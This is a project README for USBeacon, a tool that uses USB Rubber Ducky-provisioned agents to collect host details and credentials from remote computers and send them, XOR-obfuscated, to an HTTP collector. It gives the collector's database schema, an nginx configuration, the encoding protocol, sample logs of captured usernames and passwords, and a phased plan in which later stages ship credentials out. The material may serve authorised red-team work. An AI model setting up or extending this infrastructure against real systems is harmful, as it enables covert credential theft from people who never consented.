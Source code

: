 # USBeacon 

Version: (V2)

Objective(s):
> A reference implementation of a simple protocol and an agent contract to collect and transfer information from a remote computer to a collector. Mostly designed to work around USB Rubber Duckies but may be used standalone. The goals are to support the lowest common protocols available to the agent tech stack (clear HTTP) and minimal encryption facilities (e.g. XOR in native VBScript) across the board of deployment context (OS, tech stack, etc.).

### Architecture

![arch diagram](https://github.com/dsnezhkov/USBeacon/raw/master/docs/USBeacon.png "Arch Diagram")


### Backend
*Location*: `/backend`
*Goal*: Stand up a collector application and store collected data in a simple database table



A. Init database: 
`python initdb.py`
```
CREATE TABLE beacon (
        id INTEGER NOT NULL,
        hashid VARCHAR(8),
        app VARCHAR(2),
        ip VARCHAR(16),
        data TEXT,
        created_at DATETIME,
        PRIMARY KEY (id)
);
```
B. Reference dependencies needed
`scripts/setup.sh`

Sample Nginx config:
```
server {
        listen 80;
        listen 443 ssl;
        server_name *.domain.tld;


        ssl_certificate /etc/letsencrypt/live/<domain>/fullchain.pem;
        ssl_certificate_key /etc/letsencrypt/live/<domain?/privkey.pem;
        ssl_session_timeout 5m;
        ssl_protocols TLSv1 TLSv1.1 TLSv1.2;
        ssl_ciphers ALL:!ADH:!EXPORT56:RC4+RSA:+HIGH:+MEDIUM:+LOW:+SSLv3:+EXP;
        ssl_prefer_server_ciphers on;



        # Handle all locations
        location ~ ^/(beacon|ebeacon)/ {
                # Pass the request to Gunicorn
                proxy_pass http://127.0.0.1:8000;

                # Set some HTTP headers so that our app knows where the
                # request really came from
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
}
```
C. Start application proxied by Nginx
`scripts/start_server.sh`

### Payload Frontend Apps
Location: `/frontend`
*Goal*: Examples of code for the collecting agent running on the remote computers (Mac/Windows) and establishing communication from the agent to the collector


### Agent Provisioning 
*Location*: `/provisioning`
*Goal*: Help with USB RD provisioning (e.g firmware flashing, agent payload placement, etc.) 

### Protocol
```
Agent: base64(dec_array(xor(key, binary(bytes)))) 
Collector: ^^ reverse
```

Protocol examples (logs):
```
<Beacon: [hashid=53414C45532D5043, app=phs, ip=127.0.0.1, data=user:SM\test,pass:test] @ August 14 2019 - 05:48PM>
127.0.0.1 - - [14/Aug/2019:17:48:09 +0000] "POST /ebeacon/53414C45532D5043 HTTP/1.0" 200 0 "-" "-"
B64 Encoded: NDUsNjMsNTAsNTksNDUsODMsNDYsNjEsMzQsMTgsMzEsMjgsMzIsNDUsNjMsNTAsNTksNDUsODMsNDYsNjEsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzcsNzQsMzI=
B64 Decoded: 45,63,50,59,45,83,46,61,34,18,31,28,32,45,63,50,59,45,83,46,61,32,79,71,76,80,79,72,70,80,79,71,71,80,79,77,74,32
Plain Payload: SALES-PC\lab^SALES-PC^192.168.1.1^

<Beacon: [hashid=53414C45532D5043, app=hid, ip=127.0.0.1, data=SALES-PC\lab^SALES-PC^192.168.1.1^] @ August 14 2019 - 06:18PM>
127.0.0.1 - - [14/Aug/2019:18:18:39 +0000] "POST /ebeacon/53414C45532D5043 HTTP/1.0" 200 0 "-" "-"
B64 Encoded: MTEsMTMsMjcsMTIsNjgsODIsMTQsMzEsMTMsMTMsNjg=
B64 Decoded: 11,13,27,12,68,82,14,31,13,13,68
Plain Payload: user:,pass:
```

### Notes:

You can play with stages (denoted by `app` key) to implement various collection phases. 
Example: 
- Phase I beacons out the context the agent runs in.
- Phase II  agent code collect credentials and ships them to the collector. 



